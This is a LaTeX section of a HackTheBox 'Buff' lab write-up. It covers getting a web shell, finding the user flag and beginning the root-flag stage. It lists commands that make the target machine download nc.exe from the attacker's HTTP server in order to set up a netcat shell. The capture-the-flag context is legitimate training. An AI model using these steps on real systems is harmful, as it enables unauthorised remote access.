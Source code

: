 \documentclass[../main.tex]{subfiles}
\begin{document}
When you run the script with python, the URL must be provided in order to connect. After executing the command. You will see that we have entered the web shell of the Buff machine. 

Now we can start requesting the user with a simple "whoami" execution. Then we see that the user is called "shaun"

\subsection{User flag}. 

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_11_Boyan.PNG}

Now the intention is to search for the user flag. After researching some directories I found a txt file in \lstinline{"C:\user\shaun\Desktop"}. This should be the user flag. 

\subsection{Root flag}

Now that the user flag has been found, the next step is to find the root flag. 

Executing the commands on the web shell is not so simple as I have to do copy paste every time and I wanted a solution, so I read in the HTB forum that a native shell could be the solution. So I looked this up and decided to use netcat.

The first problem I got is how to copy the netcat program onto the buff machine. I have found that you can do this easily by starting an HTTP server on your local machine. Then we execute a command on the Buff machine to copy the netcat. In order to connect, I also need to know what the IP of the VPN is.

Commands:
\begin{lstlisting}
curl http://10.10.14.71/nc.exe -o nc.exe //target machine
sudo python3 -m http.server 80 //local machine
\end{lstlisting}
\end{document}
